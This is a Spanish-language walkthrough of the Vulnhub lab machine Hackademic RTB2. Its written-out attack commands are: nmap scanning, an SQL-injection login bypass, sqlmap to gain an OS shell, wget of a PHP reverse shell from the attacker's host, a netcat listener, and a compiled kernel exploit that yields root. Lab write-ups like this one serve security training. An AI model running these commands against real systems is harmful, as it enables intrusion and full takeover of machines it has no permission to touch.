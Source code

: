 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=xd&size=50&color=3CF700FF&background=FF000000&width=500&height=80&lines=HACKADEMIC_RTB2"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/hackademic-rtb2,18/

<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/182723256-9616db47-6dcd-4884-a26f-0bd69b382d29.png"></h1>

</br>

- *Paso 1:* Identificación de la máquina en la red con ArpScan. 
```
arp-scan --interface eth0 -l
```
![2](https://user-images.githubusercontent.com/75953873/182723636-8e6a7d2c-7280-4742-a5b3-17660bdd6a2e.png)

IP host: `192.168.25.131`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.25.131
```
![3](https://user-images.githubusercontent.com/75953873/182724090-b60c5b67-0dd2-4a6c-83d7-01c541c00bef.png)

Puertos abiertos: [80,666]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 80,666 -A 192.168.25.131
```
![4](https://user-images.githubusercontent.com/75953873/182724516-60843d6c-3ed8-4307-8345-7431696978a3.png)

Servidor corriendo: **HTTP Apache**

O.S: Linux (**Ubuntu**)

URL del servidor: `http://192.168.25.131`

![5](https://user-images.githubusercontent.com/75953873/182724778-d685a545-04c9-4e41-8a49-3058067bc121.png)

- *Paso 4:* Bypassear página con inyección SQL manual. 

Username: `' or 1=1--'`

Password: `' or 1=1--'`

![6](https://user-images.githubusercontent.com/75953873/182725260-0ebeb8c5-c0af-465d-b520-69816fb8b37a.png)

![7](https://user-images.githubusercontent.com/75953873/182725313-445bffd4-699b-404c-9304-80a514377bfa.png)

Al inspeccionar el código fuente, la etiqueta `<font>` contiene un texto ofuscado a hexadecimal.

![9](https://user-images.githubusercontent.com/75953873/182725970-78c8a7d8-80ea-4298-906f-7b8e9a898268.png)

```
%33%63%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%33%65%20%30%64%20%30%61%20%34%62%20%36%65%20%36%66%20%36%33%20%36%62%20%32%30%20%34%62%20%36%65%20%36%66%20%36%33%20%36%62%20%32%30%20%34%62%20%36%65%20%36%66%20%36%33%20%36%62%20%36%39%20%36%65%20%32%37%20%32%30%20%36%66%20%36%65%20%32%30%20%36%38%20%36%35%20%36%31%20%37%36%20%36%35%20%36%65%20%32%37%20%37%33%20%32%30%20%36%34%20%36%66%20%36%66%20%37%32%20%32%30%20%32%65%20%32%65%20%32%30%20%33%61%20%32%39%20%30%64%20%30%61%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%31%20%33%30%20%33%31%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%31%20%33%30%20%33%31%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%31%20%33%30%20%33%31%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%30%64%20%30%61%20%33%63%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%33%65%0A
```

- *Paso 5:* Decodificar mensaje de forma Online y con BurpSuite. 

**ONLINE:** https://www.online-toolz.com/langs/es/tool-es-text-hex-convertor.html

![10](https://user-images.githubusercontent.com/75953873/182726252-e5756ba4-5cf6-44ce-92a1-76971760b4d8.png)

**BURPSUITE:**

Decoder:
```
[Text] -> Decode as -> URL
[Hex] -> Decode as -> ASCII hex
[Text] -> Decode as -> Plain
```
![11](https://user-images.githubusercontent.com/75953873/182727019-7c7f2896-8299-42f1-ba58-d6e69c1d6545.png)

Decodificar cadena binaria: https://www.traductorbinario.com/
```
0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1   0 0 1 1 1 0 1 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1   0 0 1 1 1 0 1 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 1   0 0 1 1 1 0 1 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1 
```

![12](https://user-images.githubusercontent.com/75953873/182727491-9cdcf046-d840-4923-a7fd-1c5d0258a98c.png)

- *Paso 6:* Acceder al puerto 666 golpeado recursivamente los puertos `1001,1101,1011,1001` con Nmap. 
```
nmap -r -p 1001,1101,1011,1001 192.168.25.131
```
![13](https://user-images.githubusercontent.com/75953873/182728017-cd632ee0-4ae2-4f7e-8e8e-f78ee7450ebd.png)

URL con el puerto 666 abierto: `http://192.168.25.131:666`

![14](https://user-images.githubusercontent.com/75953873/182728213-b629fc94-5457-4086-b57d-f5b01b3aeb2a.png)

- *Paso 7:* Encontrar parámetro vulnerable a inyección SQLI. 

Navegando en el sitio web se puede observar que la "Lista de artículos de contenido" presenta una URL crítica.
```
sqlmap --url 'http://192.168.25.131:666/index.php?option=com_abc&view=abc&letter=List+of+content+items...&Itemid=3' --dbs --batch
```
![15](https://user-images.githubusercontent.com/75953873/182728721-92cf4596-2d56-4614-88c3-30419f27d7d7.png)

- *Paso 8:* Subir una shell a la base de datos `joomla`:
```
sqlmap --url 'http://192.168.25.131:666/index.php?option=com_abc&view=abc&letter=List+of+content+items...&Itemid=3' -D joomla --os-shell --batch
```
![16](https://user-images.githubusercontent.com/75953873/182729464-41340377-450f-45ff-94eb-4c9789aab291.png)

Editar la reverse shell PHP, moverla al directorio `/root` y subirla al servidor local:
```
cp /usr/share/webshells/php/php-reverse-shell.php /root
nano php-reverse-shell.php
mv php-reverse-shell.php reverseshell.php
```

**$ip:** La IP local de su máquina.

**$port:** 4444 (opcional).

![18](https://user-images.githubusercontent.com/75953873/182730094-c8c2f93f-b0a6-444f-9f84-b26f4efe6030.png)

![17](https://user-images.githubusercontent.com/75953873/182729943-7059e627-8c01-43bc-b0f6-572664c2773c.png)

Abrir servidor local con Python3:
```python
python3 -m http.server 80
```
![20](https://user-images.githubusercontent.com/75953873/182731305-a8adc335-e819-4e5c-9f1e-c388f900f595.png)

Descargar la reverse shell desde la shell obtenida de la base de datos:
```
wget http://192.168.1.9/reverseshell.php
```
![19](https://user-images.githubusercontent.com/75953873/182731485-6dd80b89-38fe-4aa6-a2c1-de63078be636.png)

- *Paso 9:* Poner a escucha conexiones con Netcat:
```
nc -lvp 4444
``` 
Acceder al sitio donde se subio la reverse shell:

URL: `http://192.168.25.131:666/reverseshell.php`

![21](https://user-images.githubusercontent.com/75953873/182731893-d0f3e803-277c-422d-b78c-fd9f8c22c66d.png)

- *Paso 10:* Identificar versión del kernel y descargar exploit:

![22](https://user-images.githubusercontent.com/75953873/182732251-c05c0ba1-7e2e-4da5-a75c-8676435d3a96.png)

```
searchsploit 2.6.3 | grep "RDS"
searchsploit -m 15285
```
![23](https://user-images.githubusercontent.com/75953873/182733308-febf508c-8e3b-42b7-ba66-9b3eb82b6494.png)

Abrir servidor local con Python3:
```python
python3 -m http.server 80
```

Descargar y compilar exploit en el directorio `/tmp`:
```
cd /tmp
wget http://192.168.1.9/15285.c
gcc 15285.c -o kernel
```
![24](https://user-images.githubusercontent.com/75953873/182735176-1cd40bee-e4d0-4956-bc1e-2e593608b292.png)

Explotar kernel:
```
./kernel
```
![26](https://user-images.githubusercontent.com/75953873/182735618-d1d80e24-f62d-4679-b2fa-1d745dfe8abf.png)

Acceder al directorio `/root` y capturar la flag:
```
cd /root
cat Key.txt
```
![25](https://user-images.githubusercontent.com/75953873/182736331-28feb398-5d2a-4cee-8d54-354df9ba9c9e.png)

Descifrar contenido del fichero con base64 y moverlo al servidor local `/var/www`:
```
base64 -d Key.txt > flag
mv flag /var/www
```
URL: `http://192.168.25.131:666/flag`

![28](https://user-images.githubusercontent.com/75953873/182736188-909c542c-55ad-46ea-962a-517ede01b93d.png)
